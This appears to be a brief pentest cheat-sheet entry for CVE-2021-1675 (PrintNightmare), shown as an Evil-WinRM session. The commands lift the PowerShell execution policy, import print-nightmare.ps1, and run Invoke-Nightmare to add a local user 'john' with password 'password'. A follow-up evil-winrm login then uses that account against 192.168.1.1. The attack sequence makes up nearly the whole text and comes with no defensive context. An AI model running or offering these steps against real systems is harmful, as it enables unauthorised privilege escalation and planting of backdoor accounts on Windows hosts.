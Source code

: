 ### CVE-2021-1675
> github:https://github.com/calebstewart/CVE-2021-1675

```
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Restricted
*Evil-WinRM* PS C:\temp> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Unrestricted
*Evil-WinRM* PS C:\temp> Import-Module .\print-nightmare.ps1
*Evil-WinRM* PS C:\temp> Invoke-Nightmare -NewUser "john" -NewPassword "password" -DriverName "PrintMe"
```

* new evil-winrm session
```
evil-winrm -i 192.168.1.1 -u john -p password
```
